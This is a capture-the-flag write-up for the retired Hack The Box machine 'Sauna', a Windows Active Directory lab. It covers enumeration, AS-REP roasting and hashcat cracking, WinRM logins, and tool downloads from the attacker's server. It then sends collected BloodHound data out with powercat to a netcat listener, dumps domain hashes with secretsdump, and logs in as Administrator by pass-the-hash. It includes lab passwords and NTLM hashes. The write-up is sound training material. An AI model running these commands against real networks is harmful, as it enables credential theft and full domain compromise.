








# Sauna
## 1- Overview

      
Retire: 30 May 2020     
Writeup: 31 May 2020      

### Summary

**1- [Overview](https://github.com/flast101/HTB-writeups/tree/master/sauna#1--overview)**

**2- [Enumeration](https://github.com/flast101/HTB-writeups/tree/master/sauna#2--enumeration)**   
2.1- [Nmap Scan](https://github.com/flast101/HTB-writeups/tree/master/sauna#21--nmap-scan)   
2.2- [Web Site Discovery](https://github.com/flast101/HTB-writeups/tree/master/sauna#22--web-site-discovery)
2.3- [Active Directory Enumeration](https://github.com/flast101/HTB-writeups/tree/master/sauna#23--active-directory-enumeration)   

**3- [Privilege Escalation](https://github.com/flast101/HTB-writeups/tree/master/sauna#3--privilege-escalation)**   
3.1- [Post-Compromise Enumeration](https://github.com/flast101/HTB-writeups/tree/master/sauna#31--post-compromise-enumeration)   
3.2- [New Account Enumeration](https://github.com/flast101/HTB-writeups/tree/master/sauna#32--new-account-enumeration)   
3.3- [Post-Compromise Exploitation](https://github.com/flast101/HTB-writeups/tree/master/sauna#33--post-compromise-exploitation)   

* * *
## 2- Enumeration
### 2.1- Nmap Scan
First things first, we begin with a **`nmap`** scan:
~~~
root@kali:~# nmap --reason -Pn -A --osscan-guess --version-all -p- 10.10.10.175

Nmap scan report for 10.10.10.175
Host is up, received user-set (0.048s latency).
Scanned at 2020-05-23 17:41:39 CEST for 781s
Not shown: 65515 filtered ports
Reason: 65515 no-responses

PORT      STATE SERVICE       REASON          VERSION

53/tcp    open  domain?       syn-ack ttl 127
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2020-05-23 22:44:10Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing

49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49675/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49686/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
61302/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC

Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.80%E=4%D=5/23%OT=53%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=5EC94740%P=x86_64-pc-linux-gnu)
SEQ(SP=105%GCD=1%ISR=10A%TS=U)
SEQ(SP=105%GCD=1%ISR=10A%TI=I%TS=U)
OPS(O1=M54DNW8NNS%O2=M54DNW8NNS%O3=M54DNW8%O4=M54DNW8NNS%O5=M54DNW8NNS%O6=M54DNNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M54DNW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h00m00s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 35558/tcp): CLEAN (Timeout)
|   Check 2 (port 34579/tcp): CLEAN (Timeout)
|   Check 3 (port 44225/udp): CLEAN (Timeout)
|   Check 4 (port 57297/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-05-23T22:52:05
|_  start_date: N/A

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   52.39 ms 10.10.14.1
2   53.37 ms 10.10.10.175

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat May 23 17:54:40 2020 -- 1 IP address (1 host up) scanned in 782.01 seconds
~~~

The important services we found here are : HTTP, DNS, RPC, SMB, Kerberos, and LDAP.   
There is obviously an Active Directory about which we already have some information: the box is **SAUNA** and its domain name is probably **EGOTISTICAL-BANK.LOCAL**.   
There is also a web site named "Egotistical Bank :: Home" installed on a Microsoft-IIS 10.0 web server.   

### 2.2- Web Site Discovery

Let's have a look on the web site.
Before visiting the web site, we run Burp Suite in order to register the web traffic.

Going to the url [http://10.10.10.175](http://10.10.10.175), we arrive on the following home page:

Running **`gobuster`** with `# gobuster dir -u http://10.10.10.175:80/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -z -k -l -x "txt,html,php,asp,aspx,jsp"`, we obtain the following result:

~~~
/About.html (Status: 200) [Size: 30954]
/Blog.html (Status: 200) [Size: 24695]
/Contact.html (Status: 200) [Size: 15634]
/Index.html (Status: 200) [Size: 32792]
/Images (Status: 301) [Size: 153]
/about.html (Status: 200) [Size: 30949]
/blog.html (Status: 200) [Size: 24692]
/contact.html (Status: 200) [Size: 15631]
/css (Status: 301) [Size: 150]
/fonts (Status: 301) [Size: 152]
/images (Status: 301) [Size: 153]
/index.html (Status: 200) [Size: 32792]
/index.html (Status: 200) [Size: 32792]
/single.html (Status: 200) [Size: 38056]
~~~

There is nt much to find there. Howerver, we find a page bout the team on [http://10.10.10.175/about.html](http://10.10.10.175/about.html): 

### 2.3- Active Directory Enumeration

Let's begin with using **`ldapsearch`** to grab general information:

~~~
root@kali:~# ldapsearch -h 10.10.10.175 -x -s base namingcontexts

# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingcontexts: DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
~~~

Let's try to find more information about users if we can...

If we try with **`enum4linux`**, we don't find more information about users. Another idea is to try **[Impacket](https://github.com/SecureAuthCorp/impacket)** using **`GetADUsers.py`** against users but don't find antyhing more here:

~~~
root@kali:~# GetADUsers.py -all -no-pass -dc-ip 10.10.10.175 EGOTISTICAL-BANK.LOCAL/
Impacket v0.9.21.dev1+20200214.111603.5259ed0f - Copyright 2020 SecureAuth Corporation

[*] Querying 10.10.10.175 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
~~~

However, there is a page on the site with some members of the team:
- Fergus Smith
- Shaun Coins
- Hugo Bear
- Bowie Taylor
- Sophie Driver
- Steven Kerb

There are many naming convention the Egotistical Bank may use for its Active Directory, but the most commonly used is the first letter of the firstname followed by the name. And we can assume the people on the site page are active employees of Egotistical Bank. Now, let's build a simple users list writing down the account logins we can guess based on the usual naming convention:

~~~
root@kali:~# cat users.txt 
fsmith
scoins
hbear
btaylor
sdriver
skerb
~~~

Please note that we could try several naming conventions. 

Now, a lot of tools from **[Impacket](https://github.com/SecureAuthCorp/impacket)** can be helpful. You will find more information about its tools here : [Impacket tools](https://www.secureauth.com/labs/open-source-tools/impacket).

You can also have a look at what we have. Each python script in **`Impacket`** includes a description:
~~~
root@kali:~# ls /usr/share/doc/python3-impacket/examples/
addcomputer.py     getTGT.py         netview.py            reg.py          sniff.py
atexec.py          GetUserSPNs.py    nmapAnswerMachine.py  rpcdump.py      split.py
dcomexec.py        goldenPac.py      ntfs-read.py          sambaPipe.py    ticketConverter.py
dpapi.py           ifmap.py          ntlmrelayx.py         samrdump.py     ticketer.py
esentutl.py        karmaSMB.py       opdump.py             secretsdump.py  wmiexec.py
findDelegation.py  kintercept.py     ping6.py              services.py     wmipersist.py
GetADUsers.py      lookupsid.py      ping.py               smbclient.py    wmiquery.py
getArch.py         mimikatz.py       psexec.py             smbexec.py
GetNPUsers.py      mqtt_check.py     raiseChild.py         smbrelayx.py
getPac.py          mssqlclient.py    rdp_check.py          smbserver.py
getST.py           mssqlinstance.py  registry-read.py      sniffer.py

root@kali:~# less /usr/share/doc/python3-impacket/examples/GetNPUsers.py
#!/usr/bin/env python
# SECUREAUTH LABS. Copyright 2018 SecureAuth Corporation. All rights reserved.
#
# This software is provided under under a slightly modified version
# of the Apache Software License. See the accompanying LICENSE file
# for more information.
#
# Author:
#  Alberto Solino (@agsolino)
#
# Description:
#    This script will attempt to list and get TGTs for those users that have the property
#    'Do not require Kerberos preauthentication' set (UF_DONT_REQUIRE_PREAUTH).
#    For those users with such configuration, a John The Ripper output will be generated so
#    you can send it for cracking.
(...)
~~~

In our case, we may want to try this GetNPUsers.py. Very often, Kerberos preauthenticatiion is not set for some sers and in such a case, we will be able to get a TGT (Ticket Granting Ticket) hash which we may crack to get user's password:

GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile users.txt -dc-ip 10.10.10.175
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

~~~
root@kali:~# GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile users.txt -dc-ip 10.10.10.175
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:499b839d8e9a2f8e064ceb98e80e1155$7d7c5216287133ba942ee3b3fc34d4f7d19fba166a2cfb4316a03fd4cd1b11d3e047140007e9d0be24d51d5d595760a6632e2d490a51c87583460d41be2d0525cb8c4a3001ba9c175eaeece67b1968fb54b43b4f792d9b12f37e457b8e1249bc670e96955dd00c3dfed3ca02f28ccb1469a40abb4b17de1c6719018a459f057f6b6829e05062d5e15b322415ad38f7ab2f9b743160535b90f4165dce78e3da81c8c39d932c5146197fe0cff1b20b1a68af3647f76e77a7f29a3662bea223561f1d4038b3f1873ef9b8c4976bde2eaf83da471f9ab9f541edb321662ee0f4abb913a0dbdf02389ac20a200ec9980cbbb611c488aed0f89b3c3173488f640e6809
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
~~~

We can now try to crack this hash whith hashcat:

~~~
root@kali:~# hashcat -a 0 -m 18200 --force '$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:499b839d8e9a2f8e064ceb98e80e1155$7d7c5216287133ba942ee3b3fc34d4f7d19fba166a2cfb4316a03fd4cd1b11d3e047140007e9d0be24d51d5d595760a6632e2d490a51c87583460d41be2d0525cb8c4a3001ba9c175eaeece67b1968fb54b43b4f792d9b12f37e457b8e1249bc670e96955dd00c3dfed3ca02f28ccb1469a40abb4b17de1c6719018a459f057f6b6829e05062d5e15b322415ad38f7ab2f9b743160535b90f4165dce78e3da81c8c39d932c5146197fe0cff1b20b1a68af3647f76e77a7f29a3662bea223561f1d4038b3f1873ef9b8c4976bde2eaf83da471f9ab9f541edb321662ee0f4abb913a0dbdf02389ac20a200ec9980cbbb611c488aed0f89b3c3173488f640e6809 /usr/share/wordlists/rockyou.txt'

hashcat (v6.0.0) starting...

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.
OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]

(...)

$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:499b(...)640e6809:Thestrokes23
~~~

We just found the password: **Thestrokes23**.    
So we have the creds **fsmith:Thestrokes23**

We can login using Evil-WinRM: **`root@kali:~# evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23`**

* * *
## 3- Privilege Escalation
### 3.1- Post-Compromise Enumeration

First, we must know who we are, but nothing partcular here:
~~~
*Evil-WinRM* PS C:\Users\FSmith\desktop> whoami /all

USER INFORMATION
----------------

User Name              SID
====================== ==============================================
egotisticalbank\fsmith S-1-5-21-2966785786-3096785034-1186376766-1105

GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.

~~~

Let's get a broader enumeration using tools such as **`WinPEAS`** and **`BloodHound`**.   
[**WinPEAS**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) is a well known anumeration tool.   
[**BloodHound**](https://github.com/BloodHoundAD/BloodHound) BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Attackers can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify. Defenders can use BloodHound to identify and eliminate those same attack paths. Both blue and red teams can use BloodHound to easily gain a deeper understanding of privilege relationships in an Active Directory environment.

We set up a web server on our kali machine:
~~~
root@kali:/ftphome# python3 -m http.server 80
~~~

And download **`WinPEAS`** and **`SharpHound`** (which is the BloodHound ingestor that gather informations on the AD):
~~~
*Evil-WinRM* PS C:\Users\FSmith\temp> iwr http://10.10.14.23/winpeas64.exe -o winp.exe
*Evil-WinRM* PS C:\Users\FSmith\temp> iwr http://10.10.14.23/sharphound.exe -o sharp.exe
~~~

When running winPEAS, we notice the following account with the password **Moneymakestheworldgoround!**:

As this is a service account , it may also be a member of high value groups. When an application is executed, it must always do so in the context of an operating system user. If a user launches an application, that user account defines the context. However, services launched by the system itself use the context based on a Service Account.    

This service account could allow to execute various privileges escalation techniques and that's why we should try to login with it and launch **`SharpHound`** to collect the information on the AD.

Login with the account “svc_loanmanager” does not work:
~~~
root@kali:~# evil-winrm -i 10.10.10.175 -u svc_loanmanager -p Moneymakestheworldgoround!
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
Error: Exiting with code 1
~~~

But we noticed in WinPEAS results that its home directory is named "svc_loanmgr", so let's try the account **"svc_loanmgr"** instead:
~~~
root@kali:~# evil-winrm -i 10.10.10.175 -u svc_loanmgr -p Moneymakestheworldgoround!
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents>
~~~

it works ! We have a valid creds for another account:   
**svc_loanmgr:Moneymakestheworldgoround!**

### 3.2- New Account Enumeration

We can execute SharpHound:
~~~
*Evil-WinRM* PS C:\Users\All USers\temp> . .\sharp.ps1
*Evil-WinRM* PS C:\Users\All USers\temp> Invoke-BloodHound -CollectionMethod All 
*Evil-WinRM* PS C:\Users\All USers\temp> dir

    Directory: C:\Users\All USers\temp

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        5/24/2020   5:02 PM           9118 20200524170226_BloodHound.zip
-a----        5/24/2020   5:01 PM         832512 sharp.exe
-a----        5/24/2020   5:02 PM          11122 ZDFkMDEyYjYtMmE1ZS00YmY3LTk0OWItYTM2OWVmMjc5NDVk.bin
~~~

Now, we want to transfer the file “20200524170226_BloodHound.zip” back to our kali machine. We download **`Powercat`** and load the script :
~~~
*Evil-WinRM* PS C:\Users\All USers\temp> iwr http://10.10.14.23/powercat.ps1 -o pwr.ps1
*Evil-WinRM* PS C:\Users\All USers\temp> . .\pwr.ps1
*Evil-WinRM* PS C:\Users\All USers\temp> powercat -c 10.10.14.23 -p 4444 -i 'c:\Users\All USers\temp\20200524170226_BloodHound.zip'
~~~

On our Kali machine
~~~
root@kali:~# nc -nlvp 4444 > bloohound.zip
~~~

Trying the request “Shortest Paths to Domain Admins from Owned Principals”, we actually find nothing valuable:

### 4.3- Post-Compromise Exploitation

Howerver, we can try to get new credentials from our actual account creds byt dump ntlm hashes with **`secretdump.py`** from **`Impacket`**:
~~~
root@kali:~/Documents/results/10.10.10.1758# secretsdump.py -just-dc-ntlm EGOTISTICAL-BANK.LOCAL/SVC_LOANMGR:"Moneymakestheworldgoround!"@10.10.10.175
Impacket v0.9.21.dev1+20200214.111603.5259ed0f - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::
SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:53af03ca541bb66a02ec45f5dc8139af:::
[*] Cleaning up... 
~~~

Now, we can login as root using evil-winrm as Adminsitrator with its NTLM hash “d9485863c1e9e05851aa40cbb4ab9dff”:
~~~
root@kali:~# evil-winrm -i 10.10.10.175 -u Administrator -H d9485863c1e9e05851aa40cbb4ab9dff
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
egotisticalbank\administrator
~~~

     
